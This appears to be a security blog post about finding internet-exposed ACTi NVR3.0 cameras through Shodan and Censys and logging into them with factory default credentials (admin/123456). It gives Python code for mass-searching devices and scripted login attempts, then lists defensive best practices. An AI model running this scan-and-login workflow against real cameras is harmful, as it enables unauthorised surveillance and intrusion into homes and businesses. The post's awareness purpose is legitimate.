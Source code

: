 ```yaml
---
title: "The Hidden Risks of Poorly Secured Security Cameras"
description: "Discover how easy it is for attackers to find and exploit cameras that are connected to the internet."
pubDate: "16 May 2024"
heroImage: "/blog-placeholder-1.jpg"
tags: ["Cyber Security", "IOT", "Python"]
---
```


We all know that leaving default passwords active is a bad idea, but it can be even more risky on
security cameras. With such a simple oversight you are allowing intuders into your home or business
and loosing all privacy.

Despite this being such an easy fix (just change the password!), many people end up skipping this step.
This results in their "secure" cameras becoming easily exploited by attackers.

> The information below is intended for educational purposes only. Never attempt to access any computer
> system without explicit permission.

## How Attackers Find Exposed Cameras

Using powerful search engines like Shodan and Censys, it makes finding interent connected devices
trivial. Unlike your regular seach engine (eg google), these search engines are used to find
IOT devices, meaning any device connected to the internet. We can utilize these to search for
**ACTi NVR3.0 devices** - a popular camera. If we use Censys to search for the term "NVR3.0"
we can see 1000s of results are returned.

Once these cameras have been located, an attacker can manually attempt to login to each one
using the factory default credentials (admin/123456). These factory defaults are often left
enabled as people will not change them.

But why do this manually when it can be automated?

## Automating the Search

Shodan and Censys both provide convient APIs to search through their databases. The API will return
detailed data including: IP, open ports, latitude, longitude, etc. Using this data makes searching
easy. Here is a simple Python script to demonstrate how the Shodan API can be used:

```python
api = Shodan(config.SHODAN_API)
search_term = 'http.html:NVR3.0'

count = api.count(search_term)['total']
for page in range(math.ceil(count/100)):
    query = api.search(query=search_term, page=page+1)
    for server in query['matches']:
        param = f"{server['ip_str']}:{server['port']}"
        location = server["location"]
        start_thread(param, "SHODAN", location["city"], location["country_name"], location["country_code"], location["longitude"], location["latitude"])

```

## Inspecting and Exploiting

Once an attacker finds a camera they are able to attempt to login. We can use tools
like Burp suite to log all HTTP requests that the browser makes and inspect the data.
When logging in we can observe a header that gets sent:

```
Authorization: Basic YWRtaW46MTIzNDU2
```

We are able to decode this base64 string to inspect the data:

```sh
$ echo YWRtaW46MTIzNDU2 | base64 --decode                                                                                                                          2ms
# admin:123456
```

The decoded string includes the username and password that we entered in the login
page. With this information an attacker can programatically attempt to login:

```python
r = requests.get(f"http://{server}/Media/UserGroup/login?response_format=json", headers={"Authorization": "Basic YWRtaW46MTIzNDU2" }, timeout=10)
if(r.status_code == 200):
  print("Login success")
```

We can just check the response from the login requests and check it matches the
status code "200" (meaning successful login). At this point an attacker can then
login to the camera and view it. I've put together a script that will
automate the whole process - avaiable on my [GitHub](https://github.com/member87/cam-finder)

## What Can Attackers Access?

Once logged in as an admin, the attacker will have full control over the cameras. This includes:

-   **Live Viewing & Playback**: Watch the cameras in real time and previous historical recorings.
    If the camera also has audio support, they would also be able to hear conversations.
-   **Camera Management**: Rename, delete, and confiure camera settings.
-   **Storage Control**: Delete previous recordings and reserve all disk space to prevent any
    new recordings
-   **Camera Direction**: There are a few models of cameras that will allow you to rotate the
    position, potentially watching sensitive areas.
-   **User Management**: Add, delete, or modify user accounts.

## Potential Impact of Poor Security

The implications of a compromised camera system are shocking. A bad actor could use this access
for anything from petty vandalism to a physical break-in—then delete the evidence. At the time of
writing, I’ve identified over 600 exposed cameras, many in homes and businesses.

## How to Secure Cameras (or anything IOT): Best Practices

-   **Defualt Passwords**: Any password that comes defualt with your device should
    be changed as soon as possible.
-   **Limit Internet Exposure**: Don't make your devices avaible publically on the
    internet unless absouletly required. In these cases there should be sufficent
    security measures in place preventing public access.
-   **IP Whitelist or VPN**: If you need remote access, limit which IPs can have access
    or use a VPN to securly connect.
